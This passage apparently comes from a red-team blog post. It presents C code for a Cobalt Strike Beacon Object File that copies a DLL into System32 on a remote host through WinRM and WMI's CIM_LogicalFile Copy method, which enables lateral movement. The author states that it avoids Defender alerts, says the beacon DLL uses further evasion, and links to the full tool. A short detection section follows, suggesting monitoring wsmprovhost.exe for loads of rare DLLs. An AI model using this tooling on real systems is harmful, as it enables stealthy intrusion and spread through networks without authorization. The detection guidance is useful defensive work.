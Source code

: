 ```
BOOL copyFileCIM_LogicalFile(LPCWSTR remoteComputerName) {

	<Initialize COM, Create WSMan object, CreateSession and QueryInterface>
	
	WCHAR CIM_LogicalFilePath[MAX_PATH];
	swprintf_s(CIM_LogicalFilePath, MAX_PATH,
		LR"(http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/CIM_LogicalFile?name=C:\%s.dll)",
		PLUGIN_TEMP_NAME);
	VariantInit(&resourceUri);
	resourceUri.vt = VT_BSTR;
	resourceUri.bstrVal = SysAllocString(CIM_LogicalFilePath);
	WCHAR inputParametersXML[512];
	swprintf_s(inputParametersXML, 512,
		LR"(<p:copy_INPUT
xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/CIM_LogicalFile">
<p:filename>C:\Windows\System32\%s.dll</p:filename>
</p:copy_INPUT>)",
		PLUGIN_NAME);
	BSTR inputParameters = SysAllocString(inputParametersXML);
	LONG flags = NULL;
	BSTR result = NULL;
	HRESULT hr = pSession->Invoke(SysAllocString(L"Copy"), resourceUri, inputParameters, flags, &result);
	if (FAILED(hr)) {
		BeaconPrintf(CALLBACK_ERROR, "error Invoke Copy, COM error: (hr=%08X)\n", hr);
		success = FALSE;
		goto COMClearVariant;
	}
	DEBUG("Success Invoke Copy, result: %ws\n", result);

	<clean-operations>
}
```

And that's it, we can now perform the attack without triggering Defender alerts! The final code for the BOF is [here](https://github.com/FalconForceTeam/bof-winrm-plugin-jump) (same link as before 😉).

Before finishing, a quick video showing how the BOF can be used to laterally move to another computer using the technique explained here. Some notes:
- The DLL used to get the beacon implements some evasion techniques to avoid being statically and dynamically flagged by Defender, which I haven't covered here.
- As far as I could check, calling non-malicious-looking DLLs should be good to go to use with this BOF. However, a DLL straight out of Cobalt Strike will definitely be flagged.

{{< youtube iA_Z8LrO9C0 >}}

## Detection
To detect this technique, we can look for DLL load events by `wsmprovhost.exe` that load a binary whose prevalence is below a certain threshold, for example, `100`. Certain false-positives can be expected if a non-built-in WinRM plugin is used in the environment. In that case, allow-listing it should be enough.
